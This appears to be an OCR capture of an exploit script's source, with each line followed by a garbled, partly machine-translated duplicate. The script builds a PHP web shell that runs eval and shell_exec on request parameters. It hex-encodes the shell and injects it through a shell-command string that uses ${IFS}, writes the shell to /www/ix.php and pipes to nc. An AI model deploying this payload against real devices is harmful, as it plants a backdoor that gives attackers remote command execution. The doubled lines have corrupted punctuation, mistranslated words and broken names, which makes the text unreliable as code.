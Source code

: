 echo shell\_exec("sh $fname 2\>&1");  
echo shell\_exec（“sh $fname 2>&1”）;

}

if (isset($\_REQUEST\['pc'\])) {  
if（$\_REQUEST\_name '）{

eval($\_REQUEST\['pc'\]);  
return（$\_REQUEST）;

}

if (isset($\_REQUEST\['g'\])) {  
if（$\_REQUEST\_name）{

$c = $\_REQUEST\['g'\];  
$c = $\_REQUEST“g”\];

echo shell\_exec("$c 2\>&1");  
echo shell\_exec（$c 2>&1）;

}""" }"””

payload = binascii.hexlify(payload\_plain.encode("latin1"), sep="x").decode()  
payload = binasplane.hexlify（payload\_plain.encode（“latin1”），sep=“x”）.decode（）

payload = "x" + payload  
有效载荷=“x”+有效载荷

payload = payload.replace("x", "\\\\x")  
payload = payload.replace（“x”，“\\\\x”）

self.payload = (  
payload =（

f";echo -e '{payload}' > "  
f”;echo -e“{payload}”>“

"/tmp/.ff;echo tcpdump capture dev lo count 2 expr "  
“/tmp/.ff;echo tcpdump capture dev lo count 2 expr“

"'$(mv${IFS}/tmp/.ff${IFS}/www/ix.php)'|nc 127.0.0.1 1981;"  
“'$（mv${IFS}/tmp/.ff${IFS}/www/ix.php）'| nc 127.0.0.1 1981;”

)

self.headers = {  
self. header = {

"User-Agent": "Mozilla/5.0 (X11; Linux x86\_64; rv:109.0) Gecko/20100101 Firefox/118.0",  
“User-Agent”：“Mozilla/5.0（X11; Linux x86\_64; rv：109.0）Gecko/20100101 Firefox/118.0”，

"Accept": "\*/\*",  
“接受”：“\*/\*"，

"Connection": "close",  
“连接”：“关闭”，

}
